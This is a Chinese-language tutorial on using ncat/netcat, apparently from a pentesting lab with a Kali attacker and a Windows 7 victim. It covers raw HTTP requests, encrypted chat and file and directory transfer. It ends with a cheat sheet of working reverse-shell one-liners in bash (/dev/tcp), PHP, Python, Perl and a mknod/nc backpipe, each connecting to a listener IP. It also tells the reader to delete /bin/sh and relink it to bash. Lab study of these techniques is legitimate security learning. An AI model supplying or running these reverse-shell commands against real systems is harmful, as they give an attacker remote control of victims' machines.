


# ncat

### 功能

```
扫描端口
传输文件加密
通信加密
传递shell
```


### nc当作浏览器使用

```
nc -nv ip 80(该服务器对应的端口) (下面是发送的数据包)
GET / HTTP/1.1
Host: 192.168.1.4
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```


**得到的响应内容**


### ncat 在两台主机直接通信(这里使用的是win7连接的kali)

**软件路径	win7 C:\install\rolan\tools\端口扫描\nmap\ncat.exe**

```
linux更新ncat
apt-get install ncat
```

**ncat -lvp 1150** 

```
-l表示监听 -v表示冗余 -p表示端口
```


**nc -nv ip 连接服务器的端口**

开启wireshark

```
ip.addr == 192.168.1.42 && ip.addr == 192.168.1.169 &&tcp.port==1150
```


### ncat使用流量加密传输 --ssl

**ncat -lvp 1150 --ssl**


**nc -nv ip 连接服务器的端口 --ssl**


**可以发现流量已经被加密**


### 通过ncat进行文件传输

```
监听端接收数据 >

发送端发送数据 <
```

```
nc -lvp 1150 > p.txt
ncat.exe -nv 192.168.1.169 1150 < 3rd-party-licenses.txt
```


**监听任意地址的 xx端口 将文件发送给连接的主机**

```
nc -lvp 1150 < p.txt (发送)
ncat.exe -nv 192.168.1.169 1150 > 3.txt（接收）
```


**-i 等待超时时间**

```
ncat.exe -i 2 -lvp 1160 < 3.txt
nc -nv 192.168.1.42 1160 > 3.txt
```




### 传输文件|传输目录

```
tar -cvf - 1.py | nc -lvp 1180
如果是目录就将1.py 进行替换即可

nc -nv 127.0.0.1 1180 | tar xvf -
```


### 使用nc 反弹shell 

**ncat 远程控制**

```
场景:
kali 攻击机
win7 被攻击机
kali 获得win7 cmd shell

反向控制
2.kali linux(攻击机)监听一个端口,然后win7这台主机主动连接该端口,并将shell携带上
```

#### 正向控制 

```
1.win7这台主机,开放一个端口，任何一个访问该端口的主机都可以对win7这台主机下达指令
nc -lvp 12345 
```


#### 反向控制 (反弹shell)

```
原因:
1、目标服务器在内网 做的nat映射
2、入网比出网拦截的更狠
3、目标服务器在内网，需要进行端口转发，特别麻烦
```




### linux常见反弹shell的方式

##### bash -i

```
将自己的bash shell交给某个ip的某个端口

bash -i>& /dev/tcp/192.168.1.4/12345 0>&1
```


##### php -r

```
依赖php环境
php -r 'exec("/bin/sh -i >& /dev/tcp/192.168.1.4/12345  0>&1");'
```

**如果报错**

```
输入以下命令即可
rm -f /bin/sh
ln -sf /bin/bash /bin/sh
```


##### python反弹shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.169",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


##### perl 反弹shell

```
perl -e 'use Socket;$i="192.168.1.169";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


##### mknod backpipe

```
mknod backpipe p && nc 192.168.1.169 1234 0<backpipe | /bin/bash 1>backpipe
 
监听执行： nc -n -vv -l -p 1234
```


